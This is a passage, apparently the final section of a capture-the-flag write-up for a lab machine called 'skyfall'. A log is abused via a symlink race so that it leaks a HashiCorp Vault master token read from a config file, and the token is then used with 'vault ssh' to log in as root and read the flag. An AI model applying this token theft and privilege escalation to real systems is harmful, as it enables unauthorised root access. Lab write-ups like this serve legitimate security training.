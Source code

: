 ```bash
total 12
lrwxrwxrwx 1 askyy askyy   8 Jun 26 04:37 debug.log -> test.log
-rw-rw-r-- 1 askyy askyy 288 Jun 26 04:32 race.py
-rw-rw-r-- 1 askyy askyy 247 Jun 26 04:36 race.sh
-rw-rw-r-- 1 askyy askyy 590 Jun 26 04:37 test.log
askyy@skyfall:/tmp/tmp.MpRK4Ina2Y$ cat test.log
2024/06/26 04:37:29 Initializing logger...
2024/06/26 04:37:29 Reading: /etc/vault-unseal.yaml
2024/06/26 04:37:29 Security Risk!
2024/06/26 04:37:29 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/06/26 04:37:29 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/06/26 04:37:29 Check interval: 5s
2024/06/26 04:37:29 Max checks: 5
2024/06/26 04:37:29 Establishing connection to Vault...
2024/06/26 04:37:29 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/06/26 04:37:29 Checking seal status
2024/06/26 04:37:29 Vault sealed: false
```

```bash
└─$ export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"
└─$ ./vault ssh -mode=otp -role=admin_otp_key_role root@skyfall.htb
```

### Root.txt

```bash
root@skyfall:~# cat root.txt
f6962e26621e4e128b75cb6b2dd97e05
```
